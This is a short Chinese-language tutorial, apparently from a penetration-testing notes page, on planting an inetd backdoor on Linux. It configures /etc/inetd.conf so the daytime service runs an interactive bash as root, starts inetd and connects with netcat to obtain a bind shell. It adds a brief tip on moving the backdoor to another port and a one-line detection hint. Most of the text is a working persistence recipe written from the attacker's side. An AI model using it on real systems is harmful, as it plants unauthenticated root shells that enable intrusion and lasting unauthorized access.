


# inetd后门

inetd是一个监听外部网络请求(就是一个socket)的系统守护进程，默认情况下为13端口。当inetd接收到一个外部请求后，它会根据这个请求到自己的配置文件中去找到实际处理它的程序，然后再把接收到的这个socket交给那个程序去处理。

如果来自外部的某个socket是要执行一个可交互的shell (比如,我们已经在目标系统的inetd配置文件中事先定义好),这就相当于一个简易的bind型后门

安装：

```bash
apt-get install openbsd-inetd
```

**利用：**

```
#修改/etc/inetd.conf
$vim /etc/inetd.conf

#discard stream tcp nowait root internal
#discard dgram udp wait root internal
daytime stream tcp nowait root /bin/bash bash -i # 当外部请求名为daytime的服务时就弹shell
```

```
#开启inetd
$inetd
```


使用nc连接

```
nc -vv 203.0.113.1 13
```



**进阶：**

可以把**daytime**换成其他服务，服务和端口的对应关系在**/etc/services**文件查看，我们可以选择现有的，也可以自己添加一个：


然后修改**/etc/inetd.conf**



nc连接8881端口接口即可获得shell：


**检测:**

查看配置文件即可

```
cat /etc/inetd.conf
```
